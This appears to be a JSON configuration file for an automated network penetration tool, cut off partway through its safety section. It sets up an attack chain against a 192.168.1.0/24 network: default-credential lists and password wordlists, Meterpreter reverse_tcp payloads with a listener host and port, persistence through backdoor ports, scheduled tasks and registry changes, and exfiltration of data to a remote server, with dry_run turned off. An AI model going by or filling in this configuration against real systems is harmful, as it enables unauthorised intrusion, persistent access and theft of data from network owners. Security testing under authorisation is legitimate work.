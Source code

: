 ```json
{
  "network_config": {
    "target_network": "192.168.1.0/24",
    "interface": "eth0",
    "router_ip": "192.168.1.1",
    "dns_servers": ["8.8.8.8", "1.1.1.1"],
    "scan_rate": 10000,
    "timeout": 30
  },
  "credentials": {
    "wifi_password": "",
    "default_users": ["admin", "administrator", "root", "guest", "user"],
    "default_passwords": ["admin", "password", "123456", "root", "guest", ""],
    "password_lists": [
      "/usr/share/wordlists/rockyou.txt",
      "/usr/share/wordlists/metasploit/unix_passwords.txt"
    ]
  },
  "targets": {
    "common_ports": [21, 22, 23, 25, 53, 80, 110, 135, 139, 143, 443, 993, 995, 1433, 3389, 5432, 5900, 8080],
    "vulnerable_services": {
      "smb": {"port": 445, "version": "1"},
      "rdp": {"port": 3389},
      "ftp": {"port": 21},
      "ssh": {"port": 22},
      "http": {"port": 80},
      "https": {"port": 443}
    }
  },
  "exploitation": {
    "metasploit_path": "/usr/share/metasploit-framework",
    "payloads": {
      "windows": "windows/meterpreter/reverse_tcp",
      "linux": "linux/x86/meterpreter/reverse_tcp"
    },
    "lhost": "192.168.1.50",
    "lport": 4444
  },
  "persistence": {
    "backdoor_ports": [4444, 5555, 6666],
    "scheduled_tasks": true,
    "registry_modifications": true
  },
  "exfiltration": {
    "remote_server": "192.168.1.200",
    "remote_user": "pentest",
    "remote_path": "/tmp/exfiltrated_data",
    "compression": true,
    "encryption": false,
    "max_data_size": 1073741824
  },
  "logging": {
    "log_level": "INFO",
    "log_file": "pentest_automation.log",
    "detailed_logs": true,
    "save_screenshots": true,
    "save_evidence": true
  },
  "safety": {
    "dry_run": false,
    "confirm_actions": true,
    "backup_before_changes": true,
```